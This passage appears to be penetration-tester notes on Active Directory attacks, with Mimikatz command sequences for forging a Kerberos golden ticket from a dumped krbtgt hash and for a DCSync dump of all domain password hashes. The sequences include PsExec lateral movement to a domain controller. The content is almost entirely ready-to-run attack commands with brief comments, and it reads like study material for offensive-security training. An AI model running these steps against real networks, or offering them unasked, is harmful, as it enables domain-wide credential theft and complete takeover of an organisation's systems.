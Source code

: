 {% code overflow="wrap" fullWidth="true" %}
```bash
https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#Sec_KRBTGT
https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos

Getting krbtgt password hash, we could create our own self-made custom TGTs, or golden tickets.
For example, we could create a TGT stating that a non-privileged user is actually a member of the Domain Admins group.
Requirements (at least one):
- account that is a member of the Domain Admins group
- DC compromised

# We want to access the DC but find access denied with the following command
C:\Tools\SysinternalsSuite>PsExec64.exe \\dc01 cmd.exe
mimikatz > privilege::debug
mimikatz > lsadump::lsa /patch # grab domain SID and krbtgt hash from the output
# Creating the golden ticket and injecting it into memory does not require any admin privs and can even be done from a computer that is not joined to the domain. 
# Before generating the golden ticket, we'll delete any existing Kerberos tickets
mimikatz > kerberos::purge
mimikatz > kerberos::golden /user:$EXISTING_USER /domain:domain..com /sid:$DOMAIN_SID /krbtgt:$KRBTGT_NTLM_HASH /ptt
# From July 2022 the ticket has to include an existing user on the domain under /user:
# We should see User id 500 on the ticket which means domain admins group and "Golden ticket successfully..."
# With the golden ticket injected into memory, we can launch a new command prompt
mimikatz > misc::cmd
# attempt lateral movement with PsExec
C:\Users\user.corp > psexec.exe \\dc01 cmd.exe # perform overpass the hash, with IP instead of hostname would not work
# We should see corp\fakeuser and Domain Admins group with whoami and whoami /groups
```
{% endcode %}

## DCSync

{% code overflow="wrap" fullWidth="true" %}
```c
# DCSync (Domain Controller Synchronization)
https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772726(v=ws.10)?redirectedfrom=MSDN
https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc961761(v=technet.10)?redirectedfrom=MSDN
https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
Requirements: 
- Compromise of a domain administrator account
# Open Mimikatz and start the replication, /user is the target user to sync
mimikatz > lsadump::dcsync /user:Administrator
The dump contains multiple hashes associated with the last twenty-nine used user passwords as well as the hashes used with AES encryption.
Using the technique above, we can request a replication update with a domain controller and obtain the password hashes of every account in Active Directory without ever logging in to the domain controller.
```
{% endcode %}

